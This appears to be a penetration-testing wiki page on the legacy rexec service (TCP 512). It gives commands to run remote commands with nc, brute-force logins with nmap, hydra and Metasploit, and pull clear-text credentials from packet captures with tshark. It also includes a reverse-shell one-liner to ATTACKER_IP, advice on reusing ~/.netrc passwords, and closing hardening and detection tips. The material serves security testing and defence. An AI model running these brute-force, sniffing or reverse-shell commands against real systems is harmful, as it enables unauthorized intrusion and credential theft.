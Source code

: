 # 512 - Pentesting Rexec

## Basic Information

Rexec (remote **exec**) is one of the original Berkeley *r*-services suite (together with `rlogin`, `rsh`, …).  It provides a **remote command-execution** capability **authenticated only with a clear-text username and password**.  The protocol was defined in the early 1980’s (see RFC 1060) and is nowadays considered **insecure by design**.  Nevertheless it is still enabled by default in some legacy UNIX / network-attached equipment and occasionally shows up during internal pentests.

**Default Port:** TCP 512 (`exec`)

```
PORT    STATE SERVICE
512/tcp open  exec
```

> 🔥  All traffic – including credentials – is transmitted **unencrypted**.  Anyone with the ability to sniff the network can recover the username, password and command.

### Protocol quick-look

1. Client connects to TCP 512.
2. Client sends three **NUL-terminated** strings:
   * the port number (as ASCII) where it wishes to receive stdout/stderr (often `0`),
   * the **username**,
   * the **password**.
3. A final NUL-terminated string with the **command** to execute is sent.
4. The server replies with a single 8-bit status byte (0 = success, `1` = failure) followed by the command output.

That means you can reproduce the exchange with nothing more than `echo -e` and `nc`:

```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```

If the credentials are valid you will receive the output of `id` straight back on the same connection.

### Manual usage with the client

Many Linux distributions still ship the legacy client inside the **inetutils-rexec** / **rsh-client** package:

```bash
rexec -l user -p password <target> "uname -a"
```

If `-p` is omitted the client will prompt interactively for the password (visible on the wire in clear-text!).

---
## Enumeration & Brute-forcing

### [**Brute-force**](../generic-hacking/brute-force.md#rexec)

### Nmap

```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
The `rexec-brute` NSE uses the protocol described above to try credentials very quickly .

### Hydra / Medusa / Ncrack

```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` has a dedicated **rexec** module and remains the fastest offline bruteforcer .  `medusa` (`-M REXEC`) and `ncrack` (`rexec` module) can be used in the same way.

### Metasploit

```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
The module will spawn a shell on success and store the credentials in the database .

---
## Sniffing credentials

Because everything is clear-text, **network captures are priceless**.  With a copy of the traffic you can extract creds without touching the target:

```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
  awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```

(In Wireshark enable *Decode As …​* TCP 512 → REXEC to view nicely-parsed fields.)

---
## Post-Exploitation tips

* Commands run with the privileges of the supplied user.  If `/etc/pam.d/rexec` is mis-configured (e.g. `pam_rootok`), root shells are sometimes possible.
* Rexec ignores the user’s shell and executes the command via `/bin/sh -c <cmd>`.  You can therefore use typical shell-escape tricks (`;`, ``$( )``, backticks) to chain multiple commands or spawn reverse shells:
  ```bash
  rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
  ```
* Passwords are often stored in **~/.netrc** on other systems; if you compromise one host you may reuse them for lateral movement.

---
## Hardening / Detection

* **Do not expose rexec**; replace it with SSH.  Virtually all modern *inetd* superservers comment the service out by default.
* If you must keep it, restrict access with TCP wrappers (`/etc/hosts.allow`) or firewall rules and enforce strong per-account passwords.
* Monitor for traffic to :512 and for `rexecd` process launches.  A single packet capture is enough to detect a compromise.
* Disable `rexec`, `rlogin`, `rsh` together – they share most of the same codebase and weaknesses.

---

## References

* Nmap NSE `rexec-brute` documentation – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Rapid7 Metasploit module `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)

